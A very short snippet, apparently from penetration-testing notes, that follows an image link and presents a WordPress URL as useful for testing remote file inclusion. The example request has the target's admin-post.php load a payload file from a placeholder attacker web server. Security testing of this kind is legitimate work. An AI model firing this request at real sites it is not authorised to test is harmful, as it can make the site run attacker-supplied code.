 Useful to test Remote file inclusion

Wordpress 
e.g: http://192.168.1.2/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://<ATTACKER_WEB_SERVER>:<PORT>/<PAYLOAD>.txt
